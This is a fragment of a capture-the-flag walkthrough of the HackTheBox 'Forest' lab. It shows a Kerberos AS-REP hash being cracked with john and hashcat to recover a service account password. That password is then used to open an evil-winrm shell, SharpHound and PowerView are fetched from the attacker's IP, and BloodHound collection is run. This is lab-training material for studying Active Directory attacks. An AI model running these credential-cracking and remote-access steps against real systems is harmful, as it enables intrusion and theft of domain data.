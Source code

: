 ```
```

Cracking with john.

```
┌──(kali㉿kali)-[~/HTB/Forest]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt ticket.tick 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 AVX 4x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$svc-alfresco@HTB)     
1g 0:00:00:03 DONE (2022-12-01 16:33) 0.2958g/s 1208Kp/s 1208Kc/s 1208KC/s s401447401447401447..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

OR

with hashcat

┌──(kali㉿kali)-[~/HTB/Forest]
└─$ hashcat -m 18200 -a 0 ./ticket.tick /usr/share/wordlists/rockyou.txt

$krb5asrep$svc-alfresco@HTB:5b8752295d87be6d3650183a6c77b00e$482c13d29de70557494907cddfcf3a8cae76ca81d3f38f2dfb814ed68f6907761d62c01ad78146f1727f26b21eb08c78492e940fa39f241aaca7b75f734bd9a2022500b6779fd5388b656845c4305f7a60f249baaf2fd7d4f474a2df93f5088ebd03427b9bffabd37cafba6396a3fed34f37627f491b4f26f6db3333ce4518b90bcd8f04013afe3e4edd5771ae189a81ba5c6311ddc288df15e1b7974f0ff86797c8fdda4d1fb88d2f0ed2fa9c10003123f1e5be72b3e207144884a80dc84d5d29dd711224ea7adc005bbcd30027c0d32cbe9ee6f501e9c580c9e19af814c98a:s3rvice

```

/svc-alfresco:s3rvice
https://book.hacktricks.xyz/network-services-pentesting/5985-5986-pentesting-winrm

```

└─$ evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161

OR 
msfconsole

```


Nishang didn't work
https://github.com/samratashok/nishang/tree/master/Shells

Downloading didn't work.

Going with evil-winrm
```
 evil-winrm -u svc-alfresco -p s3rvice -i 10.10.10.161


wget 10.10.16.9/SharpHound.ps1 -O SharpHound.ps1

wget 10.10.16.9/powerview.ps1 -O powerview.ps1


*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> import-module ./SharpHound.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> invoke-bloodhound -collectionmethod all -domain htb.local -ldapuser svc-alfresco -ldappass s3rvice



```